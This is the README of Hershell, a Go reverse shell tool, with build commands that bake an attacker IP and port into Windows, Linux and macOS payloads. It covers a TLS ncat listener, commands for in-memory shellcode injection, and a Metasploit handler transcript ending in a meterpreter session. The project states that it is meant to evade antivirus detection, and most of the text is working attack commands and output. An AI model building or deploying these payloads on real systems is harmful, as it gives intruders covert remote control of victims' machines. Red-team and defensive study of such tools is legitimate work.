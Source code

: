 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems.

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

## Getting started & dependencies

As this is a Go project, you will need to follow the [official documentation](https://golang.org/doc/install) to set up
your Golang environment (with the `$GOPATH` environment variable).

Then, just run `go get github.com/sysdream/hershell` to fetch the project.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)
- ``linux32`` : builds a linux 32 bits executable (ELF 32 bits)
- ``linux64`` : builds a linux 64 bits executable (ELF 64 bits)
- ``macos`` : builds a mac os 64 bits executable (Mach-O)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Using the shell

Once executed, you will be provided with a remote shell.
This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it (Windows only at the moment).
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully

## Usage

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
$ make macos LHOST=192.168.0.12 LPORT=1234
```

## Examples

### Basic usage

One can use various tools to handle incomming connections, such as:

* socat
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

Here is an example with `ncat`:

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.16.122.105.
Ncat: Connection from 172.16.122.105:47814.
[hershell]> whoami
desktop-3pvv31a\lab
```

### Meterpreter staging

**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_tcp`
* `windows/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_http`
* `windows/meterpreter/reverse_https`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)

To use the meterpreter staging feature, just start your handler:

```bash
[14:12:45][172.16.122.105][Sessions: 0][Jobs: 0] > use exploit/multi/handler
[14:12:57][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[14:13:12][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lhost 172.16.122.105
lhost => 172.16.122.105
[14:13:15][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lport 8443
lport => 8443
[14:13:17][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set HandlerSSLCert ./server.pem
HandlerSSLCert => ./server.pem
[14:13:26][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] [2018.01.29-14:13:29] Started HTTPS reverse handler on https://172.16.122.105:8443
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
```

Then, in `hershell`, use the `meterpreter` command:

```bash
[hershell]> meterpreter https 172.16.122.105:8443
```

A new meterpreter session should pop in `msfconsole`:

```bash
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
[*] [2018.01.29-14:16:44] https://172.16.122.105:8443 handling request from 172.16.122.105; (UUID: pqzl9t5k) Staging x64 payload (206937 bytes) ...
[*] Meterpreter session 1 opened (172.16.122.105:8443 -> 172.16.122.105:44804) at 2018-01-29 14:16:44 +0100

[14:16:46][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  DESKTOP-3PVV31A\lab @ DESKTOP-3PVV31A  172.16.122.105:8443 -> 172.16.122.105:44804 (10.0.2.15)

[14:16:48][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-3PVV31A\lab
```

## Credits

Ronan Kervella `<r.kervella -at- sysdream -dot- com>`

